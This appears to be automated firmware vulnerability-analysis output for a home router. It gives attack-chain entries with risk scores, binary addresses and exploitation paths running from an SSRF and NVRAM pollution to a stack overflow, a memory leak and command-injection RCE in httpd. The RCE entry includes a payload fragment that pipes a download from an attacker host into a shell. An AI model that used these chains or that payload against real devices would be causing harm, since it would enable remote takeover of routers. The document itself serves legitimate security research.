 - **File/Directory Path:** `bin/eapd`
- **Location:** `HIDDEN: genie.cgi → RMT_invite.cgi → bin/eapd`
- **Risk Score:** 9.2
- **Confidence:** 4.5
- **Description:** Attack Chain Update: The newly discovered EAPD stack overflow vulnerability (buffer_overflow-eapd-nvram_strncpy-0x9e48) serves as the endpoint compromise point, requiring triggering through NVRAM write operations. Current attack chain status: initial entry point (SSRF-GenieCGI-t-param) exists, but the critical intermediate link - exposed lan_ifnames/wan_ifnames write interface remains unconfirmed. Full exploitation requires: 1) Presence of unauthorized NVRAM write interface (e.g., RMT_invite.cgi) capable of setting oversized lan_ifnames values 2) Regular reading of contaminated values by EAPD process 3) Stack layout controllability verification. Exploitation probability: 0.0 (currently no evidence of write interface) → 8.2 (if exposed interface is discovered)
- **Keywords:** SSRF-GenieCGI-t-param, nvram set, lan_ifnames, wan_ifnames, fcn.00009e48, RMT_invite.cgi, buffer_overflow
- **Notes:** Attack Chain Update  

Correlation Discovery: 1) buffer_overflow-eapd-nvram_strncpy-0x9e48 (Endpoint Vulnerability) 2) AttackChain-Gap-NVRAM-Write (Common Gap) 3) Full-AttackChain-NVRAM-Write-to-Telnet-RCE (Similar Path Reference). Action Instruction: Reverse-engineer /tmp/www/cgi-bin/RMT_invite.cgi to verify NVRAM write capability.

---
### AttackChain-httpd-USB-RCE

- **File/Directory Path:** `usr/sbin/httpd`
- **Location:** `httpd:0x88c60`
- **Risk Score:** 9.2
- **Confidence:** 4.25
- **Description:** Complete USB Management Interface RCE Attack Chain: File Upload → Parameter Parsing Pollution → Command Injection → Full System Control. Trigger Steps: 1) Construct an upload file containing the `;curl attacker IP|sh` field 2) Access the unauthenticated upload interface to submit 3) Trigger popen to execute injected commands. REDACTED_PASSWORD_PLACEHOLDER Constraint: Requires knowledge of the upload interface URL.
- **Keywords:** usb_upload, popen, RCE_chain, fcn.00088aa4
- **Notes:** attack_chain
Prerequisite: The upload interface URL must be clearly identified; success probability 85%

---
### AttackChain-Integration-NVRAM-Strsep-Vuln-Update

- **File/Directory Path:** `bin/utelnetd`
- **Location:** `HIDDEN: genie.cgi → [GAP] → nvram → 0x000088f8`
- **Risk Score:** 9.2
- **Confidence:** 3.25
- **Description:** Attack Chain Update: Added evidence of underlying vulnerability (REDACTED_SECRET_KEY_PLACEHOLDER-NVRAM-strsep-0x000088f8). Complete exploitation path: SSRF-GenieCGI-t-param → RMT_invite.cgi (nvram set pollution) → NVRAM module strsep operation (0x000088f8) → Memory leak/service crash. Current status: 1) SSRF vulnerability verified 2) NVRAM write interface unverified 3) Underlying vulnerability confirmed. Risk impact: Attackers may read stack memory (containing sensitive REDACTED_PASSWORD_PLACEHOLDER tokens) or cause critical service crashes.
- **Keywords:** REDACTED_SECRET_KEY_PLACEHOLDER-NVRAM-strsep-0x000088f8, SSRF-GenieCGI-t-param, RMT_invite.cgi, strsep, AttackChain-Integration-NVRAM-Strsep-Vuln
- **Notes:** Original Attack Chain ID: AttackChain-Integration-NVRAM-Strsep-Vuln. Highest priority verification target: Reverse analysis of /tmp/www/cgi-bin/RMT_invite.cgi

---